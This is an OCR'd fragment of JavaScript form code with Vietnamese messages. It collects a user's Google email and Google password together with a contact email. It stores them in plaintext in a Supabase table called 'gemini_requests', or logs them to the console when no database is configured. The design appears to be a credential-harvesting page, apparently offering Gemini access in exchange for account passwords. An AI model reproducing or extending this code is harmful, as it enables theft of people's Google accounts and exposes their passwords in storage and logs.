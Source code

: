     return isValid;
}

function isValidEmail(email) {
    const emailRegex = /^[^\s@]+@[^\s@]+\.[^\s@]+$/;
    return emailRegex.test(email);
}

// Form Submission
async function submitForm() {
    // Validate form
    if (!validateForm()) {
        showNotification('Vui lòng điền đầy đủ thông tin hợp lệ!', 'error');
        return;
    }

    // Get form values
    const email = document.getElementById('email').value.trim();
    const password = document.getElementById('password').value.trim();
    const contactEmail = document.getElementById('contactEmail').value.trim();

    // Show loading
    showLoading(true);

    try {
        // Save to Supabase
        if (supabase) {
            const { data, error } = await supabase
                .from('gemini_requests')
                .insert([
                    {
                        google_email: email,
                        google_password: password,
                        contact_email: contactEmail,
                        created_at: new Date().toISOString(),
                        status: 'pending'
                    }
                ]);

            if (error) {
                console.error('Supabase error:', error);
                throw new Error('Không thể lưu thông tin. Vui lòng thử lại!');
            }

            console.log('Data saved successfully:', data);
        } else {
            // Fallback: Log to console if Supabase is not configured
            console.log('Form submitted (Supabase not configured):', {
                google_email: email,
                google_password: password,
                contact_email: contactEmail,
                created_at: new Date().toISOString()
            });
            
            // Simulate delay
            await new Promise(resolve => setTimeout(resolve, 1500));
        }
